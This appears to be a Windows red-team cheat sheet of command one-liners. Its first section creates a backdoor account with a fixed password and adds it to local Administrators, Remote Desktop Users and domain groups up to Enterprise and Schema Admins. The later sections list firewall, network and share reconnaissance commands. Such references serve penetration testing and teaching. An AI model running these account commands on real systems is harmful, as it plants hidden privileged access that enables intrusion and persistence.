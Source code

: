 ## User Management

### Local Admin User
```powershell
cmd.exe /c net user manoj superPassword /add & cmd.exe /c net localgroup administrators manoj /add & cmd.exe /c net localgroup "Remote Desktop Users" manoj /add
```

### Domain Admin User
```powershell
cmd.exe /c net user manoj superPassword /add & net localgroup Administrators manoj /ADD /DOMAIN & net localgroup "Remote Desktop Users" manoj /ADD /DOMAIN & net group "Domain Admins" manoj /ADD /DOMAIN & net group "Enterprise Admins" manoj /ADD /DOMAIN & net group "Schema Admins" manoj /ADD /DOMAIN & net group "Group Policy Creator Owners" manoj /ADD /DOMAIN
```

## Program Files Check

```powershell
cd "C:\Program Files" & DIR /A /O /Q
cd "C:\Program Files (x86)" & DIR /A /O /Q
```

## Firewall and Network Info

```powershell
# Check firewall rules
netsh advfirewall firewall show rule name=all
netsh advfirewall firewall show rule name=inbound
netsh advfirewall firewall show rule name=outbound

# Display firewall info
netsh firewall show state
netsh firewall show config

# Gather network info
netstat -anoy
route print
arp -A
ipconfig /all
```

## Shares

```powershell
# List shares
net share
net use

# Create share
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."

# Mount share
NET USE Z: \\COMPUTER_NAME\SHARE_NAME /PERSISTENT:YES

# Unmount share
NET USE Z: /DELETE

# Delete share
NET SHARE /DELETE
```
